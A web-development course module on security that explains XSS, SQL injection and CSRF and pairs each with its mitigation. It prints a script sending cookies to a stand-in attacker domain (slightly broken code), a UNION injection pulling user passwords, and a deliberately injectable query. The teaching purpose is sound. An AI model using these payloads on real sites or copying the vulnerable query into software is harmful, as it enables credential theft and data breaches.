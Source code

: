 # 4.4: Security

## Learning Objectives

1. The most vulnerable security loopholes are usually human ones such as phishing or insecure storage of passwords
2. If we follow best practices for building apps, generally our apps should be technically secure
3. Know how well-known attacks such as XSS, CSRF and SQL injection work

## Introduction

Data breaches more commonly exploit human behaviour than technical loopholes, using techniques such as phishing to retrieved credentials from privileged users. This is why cybersecurity is more often about mandating phishing training, multi-factor authentication and minimal access privileges across organisations than technical security of applications.

If we follow best practices for building apps as we have so far, our apps should be technically secure. When we deviate from standard libraries and configure authentication, database access, cloud access privileges manually, that is when security considerations become more relevant. Teams that manage sensitive data should conduct regular audits to ensure technical application security.

In this submodule we will learn about 3 well-known types of technical attacks on web applications, so common they are listed in the [OWASP Top 10](https://owasp.org/www-project-top-ten/), a publicly-maintained list of the 10 most common web application security risks. These are Cross-Site Scripting (XSS), SQL Injection and Cross-Site Request Forgery.

## Cross-Site Scripting (XSS)

### Introduction

Cross-site scripting (aka XSS) is a type of injection attack where an attacker saves JavaScript in a system to be executed later. When executed, that JavaScript might send a request with the logged-in user's credentials to a different server, or perform an unauthorised transaction on the current server.

### Part 1: Save JavaScript to database

#### Exploit

The first part of an XSS attack is saving JavaScript to the database. We can do this by entering JavaScript into an non-sanitised form field, such as the following.

```javascript
<script>alert("Hey!")</script>
```

#### Mitigation: Validate user input

Always validate user input before saving to database. Validation logic is complicated, but luckily others have implemented convenient libraries for us and those libraries are publicly maintained. One of the most popular validation libraries is [`xss`](https://www.npmjs.com/package/xss).

### Part 2: Execute non-sanitised user input

#### Exploit

Once the app has saved our script to the database, the app should run our script every time the app retrieves that data and renders it in the frontend.

We can now make the app execute arbitrary JavaScript and alter our JavaScript to steal other users' credentials. One such exploit would be to send the logged-in user's cookies to our own server. Below is an example of such a script that creates an `img` HTML element whose `src` attribute is our URL with all cookies attached.

```html
<script>
  const allCookies = document.cookie;
  document.createElement('img'); 
  imgEl.src = 'http://my-bad-domain.com?' + allCookies;
</script>
```

#### Mitigation: Sanitise database values before executing

Most modern view libraries including React will automatically sanitise values before rendering them in HTML to prevent XSS attacks. To prevent this exploit, use a standard library such as React for rendering views, and if we cannot, find a [library to escape values](https://github.com/component/escape-html) before rendering those values in HTML.

[Here is React's documentation](https://reactjs.org/docs/introducing-jsx.html#jsx-prevents-injection-attacks) on how it sanitises input before rendering it in JSX.

## SQL Injection

### Introduction

SQL injection is a type of injection attack where the attacker injects malicious SQL into user input that is subsequently executed on the database. This is commonly used to steal or corrupt data.

### Exploit: Clever SQL Syntax

Imagine the following Express logic that generates a SQL query.

```javascript
const query = `SELECT name, type FROM cats WHERE name='${request.params.name}'`
```

Now imagine instead of a valid name, we input the following to the app.

```sql
kai' UNION SELECT email, password FROM users--
```

This would generate the following SQL query, which would return all user emails and passwords.

```sql
SELECT name, type FROM cats WHERE name='kai' UNION SELECT email, password FROM users--'
```

The above example is from [Portswigger](https://portswigger.net/web-security/sql-injection), a well-known web security blog. `UNION` syntax let's us execute an additional SQL query and append results to the original.

### Mitigation: Always parameterise SQL queries

Our app is vulnerable to SQL injection because we use raw user input in our SQL query.

To prevent this, most SQL libraries such as `pg` allow us to provide user input as parameters separate from the SQL query, such that the library can sanitise that input before constructing the query. ORM libraries like Sequelize automatically sanitise input when constructing SQL queries.

## Cross-Site Request Forgery (CSRF)

### Introduction

Cross-Site Request Forgery (aka CSRF) is an attack where an attacker sends a forged request to a legitimate server to perform functionality on behalf of a user. This forged request is commonly generated by phishing, for example making the user click a link that triggers the attack functionality. This can be used to compromise user accounts by changing passwords, for example.

### Exploit Part 1: Make user click on link

If we suspect a user's browser may be storing authentication credentials, we can use phishing techniques to make that user click on a link that either changes those credentials to something we know (e.g. change password) or perform other functionality (e.g. transfer money). This link can be masked with text (e.g. "unsubscribe here") or a call to action button (e.g. "Learn More").

### Exploit Part 2: Legitimate server does not check for CSRF

As an example, if an API server's password reset route were a GET route and user credentials were stored in the browser from a previous login, attackers could craft a link to set new password credentials in the request URL while sending login credentials via cookies with the request. This is why we should always use POST or PUT requests for altering data on our servers.

### Mitigation: CSRF token and token verification

To prevent CSRF, we can protect sensitive routes that should only be accessed by specific forms (and not wild links) with cryptographic tokens called CSRF tokens. These tokens would be generated by the backend, passed to the frontend on form load and validated by the backend on form submission. This guarantees that users can only submit valid form submissions from the frontend app and nowhere else.

[`csurf`](http://expressjs.com/en/resources/middleware/csurf.html) is the most popular CSRF token library for Express.
